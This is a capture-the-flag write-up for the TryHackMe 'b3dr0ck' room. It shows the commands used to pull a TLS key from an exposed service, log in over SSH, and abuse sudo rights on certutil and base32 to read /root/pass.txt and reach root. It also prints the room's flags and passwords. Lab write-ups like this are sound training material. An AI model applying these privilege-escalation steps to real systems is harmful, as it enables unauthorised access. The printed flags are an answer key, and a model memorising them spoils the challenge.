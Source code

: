 # b3dr0ck THM writeup
<a href = "https://tryhackme.com/room/b3dr0ck"> https://tryhackme.com/room/b3dr0ck </a>

<hr>
<h2> Question 1: flag 1</h2>
I already got some hints from the details in the tryhackme page<br>

```
He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
```

So lets start, nmap scan as usual recon:
```
$ nmap 10.10.246.196
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:17 EDT
Nmap scan report for 10.10.246.196
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Trying Port 9009 in browser, it returned 

```Unsupported or unrecognized SSL message```

<br>

So as i know if i try to load up the web server on port 80, <br>
it will redirect me to port 4040 <br>
On the website Barney doesn't seems to know what he is doing, and he also mentions
that: **"Looks like it started something else, but I'm not sure how to turn it off!
        He said it was from the toilet and OVER 9000!"**<br>


So there are more ports open than what i currently have<br>
Running nmap again reveals another port that i didnt knew about, **54321**
```
$ nmap 10.10.246.196 -p-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:21 EDT
Nmap scan report for 10.10.246.196
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds

```
Trying port **54321** returned ```Error: 'undefined' is not authorized for access.```
<br>
<br>
After some messing around, turns out i can connect to port 9009 via netcat:
```
$ ncat 10.10.246.196 9009 


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? 
```
Im looking for flags and passwords!
```
Sorry, unrecognized request: 'password'
You use this service to recover your client certificate and private key
```
The output message says i can recover certificate and a private key
```
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----


What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----

```
Okay, i can use this key and certificate via openssl like this(guessing port 54321 because the 9009 didn't worked):
```
openssl s_client -connect 10.10.246.196:54321 -key id_rsa -cert certificate 
```
And after connection, i was able to get Barney's password:
```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> 
Unrecognized command: ''
This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```
I have no other choice than trying this password via ssh
```
$ ssh barney@10.10.246.196
[...]
barney@10.10.246.196's password: 
barney@ip-10-10-246-196:~$ 
```
Good, now i have the first flag!
```
barney@ip-10-10-246-196:~$ cat barney.txt
THM{f05780f08f0eb1de65023069d0e4c90c}
```
<hr>
<h2> Question 2: Fred's password</h2>
Following the tasks, i have to get access to freds account, and from fred's account, to root!

Executing sudo -l command, returned that i can run certutil as root without password:
```
barney@ip-10-10-246-196:~$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-10-246-196:
    (ALL : ALL) /usr/bin/certutil
```
Checking the tool usage, i can generate new keypair for users
```
barney@ip-10-10-246-196:~$ certutil
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
This gave me an idea to probably do the same as with Barney's account, creating a TLS connection using the two keys?
```
barney@ip-10-10-246-196:~$ sudo certutil fred fred
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----
```
Saving the output to files and trying the connection:
```
$ openssl s_client -connect 10.10.246.196:54321 -cert certificate -key id_rsa
Connecting to 10.10.246.196
CONNECTED(00000003)
[...]
read R BLOCK
Welcome: 'fred' is authorized.
```
And typing help again, it will show freds account password:
```
b3dr0ck> help
Password hint: YabbaDabbaD0000! (user = 'fred')
```
I got Fred's account password, and also the answer to question 2! **YabbaDabbaD0000!**
```
$ ssh fred@10.10.246.196
fred@10.10.246.196's password: 
fred@ip-10-10-246-196:~$ 
```
<hr>
<h2> Question 3: flag 2</h2>

And now i can easly get the second flag too!
```
fred@ip-10-10-246-196:~$ cat fred.txt
THM{08da34e619da839b154521da7323559d}
```
<hr>
<h2> Question 4: flag 3(root)</h2>
Trying again some basic PE mehtods, executing sudo -l command returns that i can run base64 and base32 as root for a specific file

```
fred@ip-10-10-246-196:~$ sudo -l
Matching Defaults entries for fred on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-10-246-196:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
Both command will read the file and encodes it as base64/32<br>
Probably it has the password encoded as base64 or base32<br>
```
fred@ip-10-10-246-196:~$ sudo /usr/bin/base32 /root/pass.txt
JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
```
Trying with CyberChef, i decoded from base32 to text, but the output looks like its still encoded
<img src = "cyberchef1.png">
<br>
Its probably double, or triple encoded by base64/32
<br><br>
After trying for a while, it turns out I can decode it two times with base32 and once with base64, this finally gave me an MD5 hash<br>
```Base32 -> Base32 -> Base64 -> MD5```
<img src = "cyberchef2.png">
<br><br>
Lets try cracking the MD5 hash with CrackStation!
<img src = "crackstation.png">
<br>
Success! Lets hope this is the root password

```
fred@ip-10-10-246-196:~$ su - root
Password: 
root@ip-10-10-246-196:~# 
```
Victory! Lets read the root.txt!
```
root@ip-10-10-246-196:~# cat /root/root.txt
THM{de4043c009214b56279982bf10a661b7}
```
